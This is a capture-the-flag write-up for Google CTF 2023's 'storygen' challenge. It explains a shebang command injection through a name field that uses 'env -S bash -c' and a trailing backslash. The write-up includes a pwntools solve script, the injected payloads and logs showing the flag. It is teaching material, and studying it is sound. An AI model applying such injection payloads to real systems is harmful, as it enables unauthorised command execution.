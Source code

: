 # STORYGEN
## Description
I wrote a story generator. It's still work in progress, but you can check it out.
## Attachments and official writeup
[https://github.com/google/google-ctf/tree/54f15c51f4b0267288f42274e8064fb2603da2ab/2023/pwn-storygen](https://github.com/google/google-ctf/tree/54f15c51f4b0267288f42274e8064fb2603da2ab/2023/pwn-storygen)
## Solution
1. by auditing the `chal.py`, we can write arbitrary string into shebang of bash script(started with `!` to form a `#!`).  
2. but due to the apostrophe of `'s story`, we can't just use `!/bin/ls` nor `!/bin/cat flag.txt`.  
3. Also, we can't use `bash -c` directly, because bash will turn to IO mode(read the file directly without -c mode) in shebang.  
4. Therefore, we can use `env -S bash -c` to bypass this.  
5. Then, use `\` in the end to disable the apostrophe.  
6. Because there is no flag under `/home/user`, I use `ls`(`!/bin/env -S /bin/bash -c "ls" \`) to locate the flag
7. The flag is in the root directory
8. `!/bin/env -S /bin/bash -c "/get_flag Give flag please" \`  

Solve.py  
```python
# -*- coding: utf-8 -*-
from pwn import *

conn = remote("storygen.2023.ctfcompetition.com", 1337)
print(conn.recvuntil(b"What's your name?"))
# b"!/bin/env -S /bin/bash -c \"ls\" \\" : chal.py
# b"!/bin/env -S /bin/bash -c \"ls ..\" \\" : user
# b"!/bin/env -S /bin/bash -c \"ls /\" \\" : bin boot dev etc flag get_flag home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var
# b"!/bin/env -S /bin/bash -c \"cat /flag\" \\" : To get the flag, run "/get_flag Give flag please"
conn.sendline(b"!/bin/env -S /bin/bash -c \"/get_flag Give flag please\" \\")
print(conn.recvuntil(b"Where are you from?"))
conn.sendline(b"a")
print(conn.recvuntil(b"Do you want to hear the personalized, procedurally-generated story?"))
conn.sendline(b"yes")
print(conn.recvuntil(b"Do you want to hear the personalized, procedurally-generated story?").decode())
conn.sendline(b"no")
conn.close()
```
Logs:  
```
[x] Opening connection to storygen.2023.ctfcompetition.com on port 1337
[x] Opening connection to storygen.2023.ctfcompetition.com on port 1337: Trying 34.78.214.60
[+] Opening connection to storygen.2023.ctfcompetition.com on port 1337: Done
b"== proof-of-work: disabled ==\nWelcome to a story generator.\nAnswer a few questions to get started.\n\nWhat's your name?"
b'\nWhere are you from?'
b'\nDo you want to hear the personalized, procedurally-generated story?'



CTF{Sh3b4ng_1nj3cti0n_ftw}


Do you want to hear the personalized, procedurally-generated story?
[*] Closed connection to storygen.2023.ctfcompetition.com port 1337
```